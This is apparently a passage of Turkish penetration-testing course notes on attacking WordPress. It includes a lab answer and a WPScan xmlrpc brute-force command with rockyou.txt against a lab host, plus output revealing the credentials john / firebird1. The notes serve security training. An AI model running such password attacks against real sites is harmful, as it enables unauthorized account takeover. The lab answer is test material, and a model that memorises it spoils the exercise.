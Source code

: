 

Soru : Bu pluginin versiyon numarasını bulun. (örneğin, 4.5.2)

Cevap : 1.6.4

![Pasted image 20241229043752.png](/img/user/resimler/Pasted%20image%2020241229043752.png)


# Attacking WordPress

Bir WordPress kurulumuna saldırmak için built-in fonksiyonelliğini kötüye kullanabileceğimiz birkaç yol vardır. Wp-login.php sayfasına karşı giriş zorlama ve tema editörü aracılığıyla remote code execution konularını ele alacağız. Administrator-level bir kullanıcının WordPress back-end'e giriş yapması ve bir temayı düzenlemesi için öncelikle geçerli kimlik bilgilerini elde etmemiz gerektiğinden, bu iki taktik birbiri üzerine inşa edilir.

## Login Bruteforce

WPScan, kullanıcı adlarını ve parolaları brute force zorlamak için kullanılabilir. Önceki bölümdeki tarama raporu, web sitesinde kayıtlı iki kullanıcı (admin ve john) döndürdü. Araç, [xmlrpc](https://kinsta.com/blog/xmlrpc-php/) ve wp-login olmak üzere iki tür oturum açma brute force saldırısı kullanır. Wp-login yöntemi standart WordPress giriş sayfasını brute force etmeye çalışırken, xmlrpc yöntemi /xmlrpc.php üzerinden giriş denemeleri yapmak için WordPress API'sini kullanır. Daha hızlı olduğu için xmlrpc yöntemi tercih edilir.

```shell-session
[!bash!]$ sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local

[+] URL: http://blog.inlanefreight.local/ [10.129.42.195]
[+] Started: Wed Aug 25 11:56:23 2021

<SNIP>

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - john / firebird1                                                                                           
Trying john / bettyboop Time: 00:00:13 <                                      > (660 / 14345052)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: john, Password: firebird1

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up

[+] Finished: Wed Aug 25 11:56:46 2021
[+] Requests Done: 799
[+] Cached Requests: 39
[+] Data Sent: 373.152 KB
[+] Data Received: 448.799 KB
[+] Memory used: 221 MB

[+] Elapsed time: 00:00:23
```
